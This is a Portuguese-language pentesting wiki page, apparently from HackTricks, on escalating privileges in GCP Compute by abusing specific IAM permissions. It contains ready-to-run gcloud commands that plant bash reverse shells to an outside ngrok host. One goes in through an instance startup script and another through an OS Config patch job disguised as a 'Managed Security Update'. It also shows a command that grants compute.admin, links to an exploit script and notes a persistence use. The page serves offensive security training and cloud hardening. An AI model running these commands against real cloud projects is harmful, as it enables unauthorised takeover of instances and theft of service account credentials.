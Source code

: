 # GCP - Compute Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Compute

Para mais informações sobre Compute e VPC (rede) no GCP, consulte:

{{#ref}}
../../gcp-services/gcp-compute-instances-enum/
{{#endref}}

> [!CAUTION]
> Note que para realizar todos os ataques de escalonamento de privilégios que requerem modificar os metadados da instância (como adicionar novos usuários e chaves SSH) é **necessário que você tenha permissões `actAs` sobre a SA anexada à instância**, mesmo que a SA já esteja anexada!

### `compute.projects.setCommonInstanceMetadata`

Com essa permissão, você pode **modificar** as informações de **metadados** de uma **instância** e alterar as **chaves autorizadas de um usuário**, ou **criar** um **novo usuário com permissões sudo**. Portanto, você poderá executar via SSH em qualquer instância de VM e roubar a Conta de Serviço do GCP com a qual a Instância está sendo executada.\
Limitações:

- Note que as Contas de Serviço do GCP executando em instâncias de VM por padrão têm um **escopo muito limitado**
- Você precisará ser **capaz de contatar o servidor SSH** para fazer login

Para mais informações sobre como explorar essa permissão, consulte:

{{#ref}}
gcp-add-custom-ssh-metadata.md
{{#endref}}

Você também pode realizar esse ataque adicionando um novo script de inicialização e reiniciando a instância:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Esta permissão concede os **mesmos privilégios que a permissão anterior**, mas sobre instâncias específicas em vez de um projeto inteiro. Os **mesmos exploits e limitações da seção anterior se aplicam**.

### `compute.instances.setIamPolicy`

Esse tipo de permissão permitirá que você **conceda a si mesmo um papel com as permissões anteriores** e escale privilégios abusando delas. Aqui está um exemplo adicionando `roles/compute.admin` a uma Conta de Serviço:
```bash
export SERVER_SERVICE_ACCOUNT=YOUR_SA
export INSTANCE=YOUR_INSTANCE
export ZONE=YOUR_INSTANCE_ZONE

cat <<EOF > policy.json
bindings:
- members:
- serviceAccount:$SERVER_SERVICE_ACCOUNT
role: roles/compute.admin
version: 1
EOF

gcloud compute instances set-iam-policy $INSTANCE policy.json --zone=$ZONE
```
### **`compute.instances.osLogin`**

Se **OSLogin estiver habilitado na instância**, com esta permissão você pode apenas executar **`gcloud compute ssh [INSTANCE]`** e se conectar à instância. Você **não terá privilégios de root** dentro da instância.

> [!TIP]
> Para fazer login com sucesso com esta permissão dentro da instância VM, você precisa ter a permissão `iam.serviceAccounts.actAs` sobre a SA anexada à VM.

### **`compute.instances.osAdminLogin`**

Se **OSLogin estiver habilitado na instância**, com esta permissão você pode apenas executar **`gcloud compute ssh [INSTANCE]`** e se conectar à instância. Você terá **privilégios de root** dentro da instância.

> [!TIP]
> Para fazer login com sucesso com esta permissão dentro da instância VM, você precisa ter a permissão `iam.serviceAccounts.actAs` sobre a SA anexada à VM.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

É possível **criar uma máquina virtual com uma Conta de Serviço atribuída e roubar o token** da conta de serviço acessando os metadados para escalar privilégios para ela.

O script de exploração para este método pode ser encontrado [aqui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Se você tiver as permissões **`osconfig.patchDeployments.create`** ou **`osconfig.patchJobs.exec`**, você pode criar um [**trabalho de patch ou implantação**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Isso permitirá que você se mova lateralmente no ambiente e ganhe execução de código em todas as instâncias de computação dentro de um projeto.

Observe que no momento você **não precisa da permissão `actAs`** sobre a SA anexada à instância.

Se você quiser explorar isso manualmente, precisará criar um [**trabalho de patch**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **ou** [**implantação**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
Para um trabalho de patch execute:
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
Para implantar uma implantação de patch:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
A ferramenta [patchy](https://github.com/rek7/patchy) poderia ter sido usada no passado para explorar essa má configuração (mas agora não está funcionando).

**Um atacante também poderia abusar disso para persistência.**

### `compute.machineImages.setIamPolicy`

**Conceda a si mesmo permissões extras** para a Imagem de computação.

### `compute.snapshots.setIamPolicy`

**Conceda a si mesmo permissões extras** para um snapshot de disco.

### `compute.disks.setIamPolicy`

**Conceda a si mesmo permissões extras** para um disco.

### Bypass Access Scopes

Seguindo este link você encontra algumas [**ideias para tentar contornar os escopos de acesso**](../).

### Escalação de Privilégios Local em instância GCP Compute

{{#ref}}
../gcp-local-privilege-escalation-ssh-pivoting.md
{{#endref}}

## Referências

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../../banners/hacktricks-training.md}}
